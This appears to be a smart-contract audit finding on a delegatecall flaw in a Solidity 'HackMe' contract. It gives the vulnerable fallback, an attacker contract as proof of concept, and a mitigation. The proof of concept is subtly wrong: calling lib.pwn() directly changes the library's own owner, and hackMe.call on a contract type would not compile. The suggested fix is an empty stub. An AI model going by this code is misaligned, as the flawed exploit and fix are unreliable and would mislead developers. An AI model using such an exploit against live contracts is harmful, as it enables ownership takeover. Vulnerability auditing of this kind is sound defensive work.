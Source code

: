 # [H-01] Delegatecall Vulnerability in HackMe Contract
Submitted by Smart Auditor

HackMe.sol#L15-L18

The fallback function in the HackMe contract is vulnerable to a delegatecall attack due to the use of `delegatecall` with the `lib` contract's address. This allows an attacker to call the `pwn()` function in the `Lib` contract, which changes the `owner` of the `HackMe` contract.

```solidity
fallback() external payable {
    address(lib).delegatecall(msg.data);
}
```

## Proof of Concept

An attacker can create a malicious contract that calls the `pwn()` function in the `Lib` contract, allowing them to change the `owner` of the `HackMe` contract.

```solidity
contract MaliciousContract {
    HackMe public hackMe;
    Lib public lib;

    constructor(HackMe _hackMe, Lib _lib) {
        hackMe = _hackMe;
        lib = _lib;
    }

    function attack() public {
        lib.pwn();
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```

## Recommended Mitigation Steps

To fix the delegatecall vulnerability, avoid using `delegatecall` in the fallback function. Instead, implement proper access control and only allow specific functions to be called by authorized users. This will prevent the attacker from changing the `owner` of the `HackMe` contract.

Here's the updated fallback function:

```solidity
fallback() external payable {
    // Implement proper access control and allowed functions
}
```

Additionally, consider using the OpenZeppelin library's Ownable and AccessControl contracts to manage ownership and access control in a secure and standardized way.